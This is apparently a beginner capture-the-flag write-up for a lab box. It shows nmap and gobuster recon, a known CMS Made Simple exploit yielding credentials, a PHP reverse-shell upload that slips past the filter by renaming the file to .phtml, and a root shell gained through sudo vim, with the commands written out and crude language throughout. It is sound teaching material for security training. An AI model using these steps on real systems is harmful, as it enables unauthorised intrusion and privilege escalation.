# Simple CTF
__Beginner level ctf__

*Questions:*
1. How many services are running under port 1000?
2. What is running on the higher port?
3. What's the CVE you're using against the application?
4. To what kind of vulnerability is the application vulnerable?
5. What's the password?
6. Where can you login with the details obtained?
7. What's the user flag?
8. Is there any other user in the home directory? What's its name?
9. What can you leverage to spawn a privileged shell?
10. What's the root flag?

## Scanning for open ports:
`nmap $IP -sT -sV -sV -oA nmap/res`

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## Discovering web application

Dirbusting dirs

`└─$ gobuster dir -u http://easyctf.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.o`

```
/.php                 (Status: 403) [Size: 290]
/.html                (Status: 403) [Size: 291]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/simple               (Status: 301) [Size: 311] [--> http://easyctf.thm/simple/]
```
Content of robots.txt:
```
#
# "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $"
#
#   This file tells search engines not to index your CUPS server.
#
#   Copyright 1993-2003 by Easy Software Products.
#
#   These coded instructions, statements, and computer programs are the
#   property of Easy Software Products and are protected by Federal
#   copyright law.  Distribution and use rights are outlined in the file
#   "LICENSE.txt" which should have been included with this file.  If this
#   file is missing or damaged please contact Easy Software Products
#   at:
#
#       Attn: CUPS Licensing Information
#       Easy Software Products
#       44141 Airport View Drive, Suite 204
#       Hollywood, Maryland 20636-3111 USA
#
#       Voice: (301) 373-9600
#       EMail: cups-info@cups.org
#         WWW: http://www.cups.org
#

User-agent: *
Disallow: /


Disallow: /openemr-5_0_1_3 
#
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
#
```
Found username `mike`

/simple is a main peage of cms __CMS Made Simple__
The version of the CMS is vulnerable for CVE-2019-9053

Using exploit from https://www.exploit-db.com/exploits/46635 getting creds to cms: 
`mitch:secret`

The cms admin panel allows file downloading but filters php scripts, but it's steel possible to upload php srcip changing its extensiong to __phtml__
Sending php revshell from pentestmonkey

It's not allowed to run such scipts from uploads file. Putting revshell to main dir
To get access to parent dir, it's needed to enable __Advanced mode__ in the settings of admin panel

BOOM! WE'RE INSIDE

Now let's try to put linpeass on the server

Oh no, it's not allowed to deliver on the server files through nc using this user
Let's log in to normal user using out creds for ssh

First of all let's try to find fiiles wiht suid using following command:
`find / --perm 4000 2>/dev/null` -> nothing found

Ok, now let's just set up fucking linpeass trough *scp*
So linpeas scripts show that we have inetersting settings for sudo command:
it's allowed to run vim as root

So it's possible to escalate priveleges using vim

Let's try this stuff:
`sudo -u root /usr/bin/vim -c ":!/bin/sh"` -> nope, fucking stupid vim is setted up on this server

Let's try another one:
`sudo -u root /usr/bin/vim -c ":set shell=/bin/sh|:shell"`

AAAAND we catch the root, this fucking peace of shit is working
#PWNED
